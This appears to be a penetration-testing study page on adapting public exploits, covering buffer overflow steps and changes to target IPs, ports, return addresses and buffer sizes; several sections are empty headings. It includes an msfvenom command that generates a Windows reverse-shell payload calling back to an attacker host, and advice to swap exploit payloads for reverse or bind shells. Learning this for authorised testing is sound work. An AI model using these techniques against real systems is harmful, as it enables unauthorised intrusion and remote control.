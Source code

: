 # Fixing Exploits

## Fixing Exploits <a id="debugging"></a>

If we have to fix an exploit then we must consider the following options:

1. Can we replicate the environment of our target?
2. Are there some other public exploits in which we can gather information?
3. Do some public exploits are already fixed for our needs?

The best option is to replicate the environment of the target to locally test and fix the exploit, however, sometimes we don't have enough information of the target environment so we have to look for alternatives solutions like gathering information from other public exploits of the same software and version.

## Fixing Memory Corruption Exploits <a id="debugging"></a>

The process of a simple stack buffer overflow can include these steps:

1. Create a buffer to trigger the overrun/overflow.
2. Overwrite the return address on the stack to take control of the IP register.
3. Add a payload to the buffer without bad chars.
4. Add a return address like JMP/ESP

If we need to fix a memory corruption exploit like a stack buffer overflow we need to consider the steps above in order to successfully fix the exploit.

### Inspecting Headers

In some languages like C, we will see some exploits that have some headers that indicate that exploit should be compiled on another operating system, this is where cross-compiling comes into place.

{% embed url="https://wixnic.gitbook.io/hacknotes/exploitation/cross-compiling-exploits" %}

### Changing IP Addresses

When using remote exploits, in other words, exploits that connect to the target via a socket. We will most likely see some IP address defined in a variable and we need to change that IP address to the address of our target.

**Example:**

```text
# Before
target = 192.168.50.50

# After
target = 10.10.10.10
```

### Changing Port Numbers

When using remote exploits, in other words, exploits that connect to the target via a socket. We will most likely see some port number defined in a variable and we need to change that port number to the port of our target.

**Example**:

```text
# Before
port = 80

# After
port = 8080
```

### Changing Payloads

Memory corruption exploits more often come up with a pre-defined payload and we need to change the payload to another one that executes a reverse shell or a bind shell so that we can establish a connection to the target.

We can use **msfvenom** to generate a payload or we can create our own payload manually:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.11.13 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d"
```

Then we can change the payload with the new generated or manually created payload:

```text
payload = """"
shellcode_here
"""
```

### Changing Return Address

Sometimes we're faced with exploits that use external files like **.dll** as a return address but our target software may not contain those files so we need to modify that return address with an existing address.

**Example**:

```text
#Before
retn = "\xcb\x74\x75\x53"

# After
retn = "\x0c\x84\x09\x08" # 0x0809840c
```

### Changing the Overflow Buffer

A really important detail when modifying memory corruption exploits is the buffer itself. We need to make sure that the overflow buffer has the amount required of the offset in bytes.

**Example**:

```text
# Before
buffer_size = 590

# After
buffer_size = 591
```

### Executing Windows Binaries in Linux

If we have to execute a Windows binary in our Linux host, we will need a tool like **wine**. 

**Example**:

```text
wine exploit_name.exe
```

## Fixing Web Exploits

### Changing URL

### Changing File Paths

### Changing IP Addresses

### Changing Port Numbers

### Changing Payloads

### Changing Proxies

## Fixing Tab Errors <a id="fixing-tab-errors"></a>

This one is relatively simple and every programmer or developer should know about it. Just make sure that the exploit has the same amount of space/tabs through the code, in other words, consistency.

### Spaces vs Tabs

Spaces

* Spaces are consistent through different code editors
* Spaces are not precise
* Spaces are slow
* Spaces don't actually save space
* Files are larger \( 4 Spaces &gt; 1 Tab \)

Tabs

* Tabs can appear differently in code editors
* Tabs are precise
* Tabs are just faster, just hit that Tab key
* Tabs save more space
* Files are smaller \( 4 Spaces &gt; 1 Tab \)

## Installing Missing Libraries <a id="installing-missing-libraries"></a>

### Python3 Install Libraries

